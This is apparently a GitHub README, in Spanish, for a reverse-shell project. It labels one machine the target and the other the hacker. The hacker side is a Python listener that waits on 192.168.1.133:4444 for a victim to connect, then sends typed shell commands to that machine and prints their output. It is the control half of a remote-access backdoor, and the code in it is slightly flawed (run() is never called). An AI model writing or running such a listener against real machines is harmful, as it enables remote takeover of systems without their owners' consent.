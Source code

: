 # Parrot (Target)

![comando salir](https://user-images.githubusercontent.com/97669969/157431928-5c779e9d-5911-4092-a241-c386a0842521.png)



# Ubuntu (Hacker)

* listener.py

```bash
import socket
import json

class Listener:

    def __init__(self,ip, port):
        listener = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        listener.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1)
        listener.bind((ip,port))
        listener.listen(0)
        print("[+] Esperando por conexiones")
        self.connection,addres = listener.accept()
        print("[+] Tenemos una conexion de {}".format(addres))
        result = self.connection.recv(1024)
        print(result.decode("utf-8"))
    
    def envio_seguro(self,comando):
        json_data = json.dumps(comando)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        while True:

            try:
                json_data = self.connection.recv(1024).decode("utf-8")
                return json.loads(json_data)
                
            except:
                continue

      
    def ejecutar_remoto(self,comando):
        self.envio_seguro(comando)
        
        if comando[0] == "salir":
            self.connection.close()
            exit()
            
        return self.reception_segura()
    
    
    def run(self):
         while True:
            comando = input("shell $ ")
            comando = comando.split(" ")
            
            resultado = self.ejecutar_remoto(comando)
            print("\n" + resultado)

escuchar = Listener("192.168.1.133",4444)

```